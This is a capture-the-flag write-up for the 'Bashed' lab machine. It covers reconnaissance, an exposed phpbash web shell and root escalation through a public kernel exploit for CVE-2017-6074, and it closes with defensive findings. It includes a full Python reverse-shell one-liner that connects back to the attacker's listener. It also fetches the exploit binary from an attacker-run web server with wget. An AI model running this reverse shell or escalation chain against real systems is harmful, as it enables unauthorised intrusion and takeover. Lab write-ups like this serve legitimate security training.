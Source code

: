 ```yaml
---
layout: default
---
```


# Bashed

![](./01.png)

We'll kick ```nmap``` off to see what's what.

![](./02.png)

Looks like all we have to work with is a web server on ```80``` running Apache httpd 2.4.18. 

Let's take a look to see what's running on Apache.

![](./03.png)

![](./04.png)

It looks to be a blog of some sort talking about developing a tool called phpbash, which, if we look at the github page, uses the ```shell_exec``` php function.

Let's run ```dirb``` against the site to see if we can find where phpbash was developed on this server.

![](./05.png)

![](./06.png)

It looks like there's a directory called ```dev```.  Let's take a look to see what's there.

![](./07.png)

Looks like there's a ```phpbash.php``` file, let's use this for our purposes.

![](./08.png)

Looks like we're currently running as the ```www-data``` account.

Let's go after the user flag.

![](./09.png)

Let's try to get a more interactive shell.  First we'll setup a listener.

![](./10.png)

Now we're going to use the following command to make our call back, since we don't have ```netcat``` on this machine.

>
> sudo -i -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.██.█",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
>

Let's check our listener to see if it worked.

![](./11.png)

Looks like our connection back is good.  Now let's run ```uname -a``` to see what kernel version of linux we're running.

![](./12.png)

Based on the results, we can search for 4.4.0-62-generic privilege escalation.  We'll be using [https://www.exploit-db.com/exploits/41458](https://www.exploit-db.com/exploits/41458).

We'll use ```vi``` to paste the code and save it, after which we need to use ```gcc``` to compile the binary file.

![](./13.png)

Once we have the file compiled, we'll serve it up via a python web server.

![](./14.png)

Once that's up, we'll pull down the binary using ```wget``` on the target machine.

![](./15.png)

Now we have to change the file permissions for ```pwn``` using ```chmod``` so that we can execute it, and then do so.

![](./16.png)

Looks like we're now running as root, so let's grab the root flag.

![](./17.png)

That's all for now, folks.

___

Findings

___

**Operating System:** Ubuntu 16.04.2 LTS

**IP Address:** 10.10.10.68

**Open Ports:**
- 80

**Services Responding:**
- HTTP

**Vulnerabilities Exploited:**
- Exposed development environment with command line access
- CVE-2017-6074

**Configuration Insecurities:**
- Development environment with command line access does not require authentication

**General Findings:**
- Consider placing development environment behind authentication
- Consider replacing Ubuntu 16.0.4.2 due to end of support
  - If unable to replace, consider installing all missing patches to limit attack surface

___

[Back](../)
